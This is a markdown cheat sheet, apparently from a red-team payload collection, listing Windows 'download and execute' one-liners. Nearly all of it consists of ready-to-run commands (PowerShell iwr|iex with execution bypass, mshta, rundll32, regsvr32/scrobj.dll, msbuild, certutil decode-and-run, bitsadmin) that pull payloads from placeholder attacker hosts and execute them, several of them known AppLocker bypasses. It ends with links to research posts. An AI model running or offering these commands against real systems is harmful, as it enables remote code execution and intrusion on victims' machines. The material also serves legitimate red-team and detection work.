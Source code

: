 # Windows - Download and execute methods

## Downloaded files location

- C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## Powershell

From an HTTP server

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```

From a Webdav server

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

## Cmd

```powershell
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

## Cscript / Wscript

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

## Mshta

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```powershell
mshta http://webserver/payload.hta
```

```powershell
mshta \\webdavserver\folder\payload.hta
```

## Rundll32

```powershell
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

## Regasm / Regsvc @subTee

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

## Regsvr32 @subTee

```powershell
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```powershell
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Odbcconf

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

## Msbuild

```powershell
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

## Bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```


## References

* [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
* [Research on CMSTP.exe,](https://msitpros.com/?p=3960)
* [Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
* [Executing Commands and Bypassing AppLocker with PowerShell Diagnostic Scripts](https://bohops.com/2017/12/02/clickonce-twice-or-thrice-a-technique-for-social-engineering-and-untrusted-command-execution/)
* [WSH Injection: A Case Study](https://posts.specterops.io/wsh-injection-a-case-study-fd35f79d29dd)
* [Gscript Dropper](http://lockboxx.blogspot.com/2018/02/intro-to-using-gscript-for-red-teams.html)
